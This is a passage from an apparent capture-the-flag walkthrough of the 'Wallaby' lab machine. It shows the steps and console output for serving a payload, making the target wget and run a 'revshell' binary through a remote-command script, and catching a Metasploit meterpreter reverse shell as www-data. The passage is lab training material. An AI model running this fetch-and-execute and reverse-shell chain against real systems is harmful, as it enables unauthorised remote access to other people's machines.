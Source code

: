 python3 -m http.server 8000 &

Next, fetch the payload from yourself, and chmod it to make executable.

~/src/wallaby/pcurl.py -s -c 'wget 192.168.167.130:8000/revshell'
~/src/wallaby/pcurl.py -s -c 'chmod a+x revshell'
Start a local handler
For the next step, we use the exploit/multi/handler module. It is crucial to set the payload options to match exactly what was generated with msfvenom. Then simply run via run or exploit

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x86/meterpreter/reverse_tcp):
6
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set LHOST 192.168.167.130
LHOST => 192.168.167.130
msf5 exploit(multi/handler) > run
Call the exploit and watch your meterpreter shell
In another terminal, run the following command to remotely execute our staged payload.

root@kali:~/wallaby# ~/src/wallaby/pcurl.py -s -c './revshell'
Back in msfconsole, we see the target connect to our handler.

msf5 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.167.130:4444
[*] Sending stage (985320 bytes) to 192.168.167.133
[*] Meterpreter session 1 opened (192.168.167.130:4444 -> 192.168.167.133:47150) at 2019-05-02 09:15:32 -0400

meterpreter > getuid
Server username: uid=33, gid=33, euid=33, egid=33
meterpreter >
Congratulations! You've got a meterpreter shell! :D

Escalating Privileges
Now that we've got a meterpreter shell as the www-data user, we were able to do some exploring. We downloaded php files for examination, and checked out what sudo commands were available to the www-data user.
